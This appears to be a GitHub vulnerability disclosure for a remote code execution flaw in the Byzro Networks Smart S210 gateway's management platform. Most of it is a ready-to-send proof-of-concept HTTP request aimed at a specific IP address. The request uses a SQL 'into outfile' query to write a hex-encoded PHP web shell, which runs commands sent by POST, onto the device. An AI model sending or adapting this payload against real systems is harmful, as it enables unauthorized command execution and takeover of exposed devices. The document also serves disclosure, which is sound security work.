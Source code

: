There is an RCE vulnerability in the intelligent management platform of Byzro Networks Smart S210 multi-service security gateway.

Vulnerability location:/Tool/repair.php

version：S210

1. The login interface is as shown in the figure.

![image](https://github.com/houhuidong/cve/assets/151603975/0a377256-1af0-4107-bdcf-fbb585a5130a)

2. Execute the SQL statement and write it to the shell.

POC
```
POST /Tool/querysql.php HTTP/1.1
Host: 183.248.30.228:8443
Cookie: PHPSESSID=5a4269a2368b45aeea8b49e0ffefde42
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 113

txt=select 0x3c3f706870206563686f2073797374656d28245f504f53545b22636d64225d293b3f3e into outfile '/home/cont.php'
```
![image](https://github.com/houhuidong/cve/assets/151603975/11166cc5-9828-42ec-a95d-0fce22e1e4fe)

Then execute the poc:

![image](https://github.com/houhuidong/cve/assets/151603975/47d91c29-ffd9-41e8-8c25-5f44c194ecbd)

